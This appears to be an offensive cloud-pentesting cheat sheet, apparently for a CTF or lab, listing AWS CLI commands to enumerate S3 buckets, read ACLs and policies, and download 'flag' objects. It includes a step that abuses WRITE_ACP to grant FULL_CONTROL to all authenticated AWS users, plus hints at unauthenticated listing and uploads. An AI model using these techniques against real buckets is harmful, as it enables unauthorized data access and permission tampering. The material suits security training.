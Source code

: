 Access key = long term creds for IAM or root account  
with access and secret key:  

### List S3 buckets.
`aws s3api list-buckets`  

### Check bucket location.  
Command: `aws s3api get-bucket-location --bucket data-extractor-repo`  

### Enumerate bucket objects  
Commands:  
`aws s3api list-objects-v2 --bucket data-extractor-repo`  
`aws s3api list-objects --bucket file-uploader-saved-files`  
`aws s3 ls s3://s3-file-load-138431686808`  

### Check object versions.
Command: `aws s3api list-object-versions --bucket data-extractor-repo`  

### Check bucket ACLs and objects ACLs.  
Commands:  
`aws s3api get-bucket-acl --bucket file-uploader-saved-files`  
`aws s3api get-object-acl --bucket file-uploader-saved-files --key flag`  
## Abuse ACL (WRITE_ACP) on object EG you can list object but not copy/download.
`aws s3api get-object-acl --bucket <bucekt-name> --key flag > objacl.json`
we see we have WRITE_ACP: `"Permission": "WRITE_ACP"`
We can add below in file (Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved):
```        
{
            "Grantee": {
                "Type": "Group",
                "URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
            },
            "Permission": "FULL_CONTROL"
        }
```
And now reopload the policy:
`aws s3api put-object-acl --bucket s3-secret-771616743370 --key flag --access-control-policy file://objacl.json`  



### Download objects from the S3 bucket.
Commands:
`aws s3 cp s3://file-uploader-saved-files/flag`  

### Get bucket policy and beautify the output.
Command: `aws s3api get-bucket-policy --bucket insecurecorp-code --output text | python -m json.tool`  

### Check the public access block for a bucket.
Command: aws s3api get-public-access-block --bucket data-extractor-repo

### Check if a static website is available in the browser.  
URL: `<bucket-name>.s3-website-<region>.amazonaws.com`  
(Can also run `ls` unauthed as well as trying to upload unauthed`

AWS CLI (https://docs.aws.amazon.com/cli/latest/reference/)
